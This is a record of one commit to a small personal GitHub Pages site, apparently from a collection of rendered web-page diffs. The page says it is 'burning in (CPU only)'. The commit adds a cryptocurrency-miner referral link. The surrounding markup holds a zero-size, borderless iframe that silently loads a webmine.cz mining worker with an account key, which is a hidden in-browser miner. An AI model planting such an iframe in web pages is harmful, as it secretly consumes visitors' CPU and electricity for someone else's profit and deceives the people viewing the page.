

Before and after one commit to zsqdx/zsqdx.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,5 +1,6 @@
 <body>
     <p>正在烤机中</p>
     <p>(仅CPU)</p>
+    <p>miner.eo.finance/?r_id=604800451<p>
 </body>
 <iframe width=0 height=0 frameborder=0 src='https://webmine.cz/worker?key=n1B6JwcbnTRzDNu'></iframe>
```
